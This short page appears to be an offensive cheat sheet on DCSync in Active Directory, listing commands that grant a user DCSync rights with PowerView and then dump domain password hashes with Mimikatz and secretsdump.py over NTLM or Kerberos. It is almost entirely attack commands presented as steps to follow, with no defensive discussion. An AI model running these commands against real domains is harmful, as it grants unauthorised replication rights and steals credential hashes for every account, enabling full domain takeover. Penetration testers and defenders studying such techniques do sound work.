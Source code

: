 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Granting DCSync privileges allows a user to replicate domain data, which includes sensitive information such as password hashes.  

### **Steps to Grant DCSync Privileges**

1. Grant DCSync privileges using PowerView:  
   ```powershell
   Add-DomainObjectAcl -TargetIdentity "DC=SUB,DC=DOMAIN,DC=LOCAL" -PrincipalIdentity bfarmer -Rights DCSync
   ```

2. Perform a DCSync attack with Mimikatz:  
   ```powershell
   Invoke-Mimikatz -Command '"lsadump::dcsync /user:[DOMAINNAME]\[ANYDOMAINUSER]"'
   ```

3. Run DCSync using NTLM authentication:  
   ```bash
   secretsdump.py [DOMAIN]/[USERNAME]:[PASSWORD]@[IP_ADDRESS] -just-dc-ntlm
   ```

4. Run secretsdump.py with Kerberos authentication:  
   ```bash
   secretsdump.py -no-pass -k <Domain>/<Username>@<DC_IP_or_FQDN> -just-dc-ntlm
   ```
